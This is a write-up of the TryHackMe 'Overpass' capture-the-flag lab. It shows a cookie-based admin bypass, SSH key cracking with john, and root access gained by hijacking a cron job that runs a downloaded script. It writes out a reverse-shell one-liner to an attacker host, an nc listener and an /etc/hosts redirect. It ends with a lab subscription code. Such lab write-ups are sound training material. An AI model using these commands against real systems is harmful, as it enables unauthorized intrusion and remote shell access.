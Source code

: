 # Overpass

[Overpass](https://tryhackme.com/room/overpass)

## Solution

### User

- nmap scan: 22, 80

- trying out gobuster: `gobuster -u http://10.10.3.77 -w /usr/share/dirb/wordlists/common.txt`
    * admin

- there is some source code in the downloads (maybe the code is useful on the
  machine, they might use their own software)

- I looked trough the files that get sent when you access admin

- they use https://github.com/js-cookie/js-cookie for cookies; the login method
  seems weird; so I tried to set the cookie value to some random string, and
  after refreshing the page it redirected me to the admin page.

- we get the SSH key (encrypted) for James

- use john to crack it (ssh2john and then bruteforce)

`ssh2john.py id_rsa > id_rsa.john`

`john --format=ssh id_rsa.john --wordlist /usr/share/wordlists/rockyou.txt`

- then ssh as james

`ssh -i id_rsa james@<ip>` and enter the passphrase

### Root

- we can try to use overpass on the machine and list all passwords

- sadly james does not have sudo privilages

- automated build scripts => cron

- `ps aux | grep cron` => root runs cron... I know there is a way to make cron run my script but how

- `cat /etc/crontab` and we see an interesting line:

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

- what if we can somehow make overpass.thm point to my ip address? that might
  require root, to change the hostnames

- that worked. I changed overpass.thm in /etc/hosts to my ip address, then I
  started an http server on port 80, created a ./downloads/src/buildscript.sh
  with a revshell. the cronjob downloaded the file and executed it like a dummy
  dum. (also had a nc listener on port 6969)

On Host

Term 1 `nc -lnvp 6969`
Term 2 `mkdir -p downloads/src/`
Term 2 `echo "sh -i >& /dev/tcp/<host>/6969 0>&1" ./downloads/src/buildscript.sh`
Term 2 `sudo python -m http.server 80` (sudo for port 80)

On Target

`nano /etc/hosts/` (change ip for overpass.thm to <host> ip)

### Code

- once logged in as root, you can access tryhack me user home

`cp /home/tryhackme/.overpass /root/.overpass`

and execute overpass and display all. it will show the code (already used but bonus)

TryHackMe Subscription Code      gmTDyl
